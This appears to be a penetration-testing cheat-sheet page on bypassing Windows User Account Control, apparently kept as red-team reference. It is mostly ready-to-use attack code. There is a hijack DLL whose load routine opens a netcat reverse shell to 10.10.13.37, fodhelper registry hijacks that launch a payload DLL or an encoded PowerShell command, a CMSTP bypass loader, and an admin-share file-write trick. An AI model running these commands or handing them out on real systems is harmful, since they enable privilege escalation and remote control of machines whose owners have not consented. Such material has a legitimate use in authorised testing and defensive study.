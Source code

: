 ```yaml
---
description: User Account Control
---
```


# UAC Bypass

* [https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC)




## Enumeration

Check current token privileges and UAC settings with Seatbelt:

```
PS > .\Seatbelt.exe TokenPrivileges UAC
```




## SystemPropertiesAdvanced.exe

`srrstr.dll` DLL hijacking.

* [https://egre55.github.io/system-properties-uac-bypass](https://egre55.github.io/system-properties-uac-bypass)
* [https://youtu.be/krC5j1Ab44I?t=3570](https://youtu.be/krC5j1Ab44I?t=3570)

{% code title="srrstr.c" %}
```c
// i686-w64-mingw32-g++ srrstr.c -lws2_32 -o srrstr.dll -shared

#include <windows.h>

BOOL WINAPI DllMain(HINSTANCE hinstDll, DWORD dwReason, LPVOID lpReserved) {
	switch(dwReason) {
		case DLL_PROCESS_ATTACH:
			WinExec("C:\\Users\\<USERNAME>\\Documents\\nc.exe 10.10.13.37 1337 -e powershell", 0);
		case DLL_PROCESS_DETACH:
			break;
		case DLL_THREAD_ATTACH:
			break;
		case DLL_THREAD_DETACH:
			break;
	}

	return 0;
}
```
{% endcode %}

Upload `srrstr.dll` to `C:\Users\%USERNAME%\AppData\Local\Microsoft\WindowsApps\` and check it:

```
PS > rundll32.exe srrstr.dll,xyz
```

Exec and get a shell ("requires an interactive window station"):

```
PS > cmd /c C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```




## cmstp.exe

* [0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html](https://0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html)
* [https://gist.github.com/snovvcrash/56d51e535c3afd89a1e9e68c284553a6](https://gist.github.com/snovvcrash/56d51e535c3afd89a1e9e68c284553a6)

Compile from source, load and execute:

```
PS > Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -ReferencedAssemblies "System.Windows.Forms" -OutputAssembly "CMSTP-UAC-Bypass.dll"
PS > [Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\CMSTP-UAC-Bypass.dll"))
PS > [CMSTPBypass]::Execute("C:\Windows\System32\cmd.exe")
```

Load from a weaponized PowerShell and execute:

```
PS > Bypass-UAC -C "C:\Windows\System32\cmd.exe"
```




## fodhelper

* [https://gist.github.com/netbiosX/a114f8822eb20b115e33db55deee6692](https://gist.github.com/netbiosX/a114f8822eb20b115e33db55deee6692)

Create and set registry values (the payload is generated with [`charlotte.py`](/pentest/infrastructure/ad/av-edr-evasion/README.md#charlotte)):

```
PS > New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
PS > New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
PS > Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "rundll32 C:\Windows\System32\spool\drivers\color\met.dll, SUJIzDKv" -Force
```

Trigger `fodhelper.exe`:

```
PS > Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

Cleanup:

```
PS > Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```

Another way to do it with a script (hijecking PowerShell executable):

{% code title="fod.ps1" %}
```powershell
function RegStuff {
    $cmd = "C:\Windows\Tasks\foo.exe -enc <BASE64_CMD>"
    copy C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe C:\Windows\Tasks\foo.exe
    Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force -ErrorAction SilentlyContinue
    New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
    New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
    Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $cmd -Force
}

function PrivEsc {
    Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
    Start-Sleep -s 3
    Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force -ErrorAction SilentlyContinue
}

RegStuff
```
{% endcode %}




## SilentCleanup

* [https://hausec.com/2020/10/30/using-a-c-shellcode-runner-and-confuserex-to-bypass-uac-while-evading-av/](https://hausec.com/2020/10/30/using-a-c-shellcode-runner-and-confuserex-to-bypass-uac-while-evading-av/)
* [https://github.com/chryzsh/Aggressor-Scripts/tree/master/uac-bypass](https://github.com/chryzsh/Aggressor-Scripts/tree/master/uac-bypass)




## Tricks

Bypass UAC for file read/write:

```
Cmd > net use A: \\127.0.0.1\C$
Cmd > A:
Cmd > cd \Windows\System32
Cmd > echo test > test.txt
Cmd > dir test.txt
```
